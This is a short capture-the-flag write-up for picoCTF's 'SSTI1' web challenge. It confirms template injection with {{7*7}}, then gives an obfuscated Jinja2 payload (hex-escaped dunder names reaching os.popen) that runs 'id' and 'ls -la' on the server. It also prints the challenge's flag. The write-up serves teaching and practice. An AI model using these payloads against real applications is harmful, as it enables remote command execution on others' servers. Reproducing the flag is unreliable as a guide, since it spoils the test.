



# SSTI1 — Pico Gym

> **Room / Challenge:** SSTI1 (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** Pico Gym
- **Challenge:** SSTI1 (web)
- **Link**: `https://play.picoctf.org/practice/challenge/492`
- **Difficulty:** `Easy`
- **Date:** `07-11-2025`

---

## Goal

Leveraging SSTI (Server-Side Template Injection) to get the flag.

## My Solution

The app is simple with one functionality `announce` whatever we write to the announce input will be announced.


We can try a simple input `{{7*7}}`:


Got `49` so Server-Side Template Injection may work in this application. There are several injection payloads we can tried from https://github.com/payloadbox/ssti-payloads. I used:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```



It worked! Change `id` to `ls -la` to view the contents of the current directory:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}
```



There is a `flag` file so we can read that content via `cat flag`:



Flag is: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}`
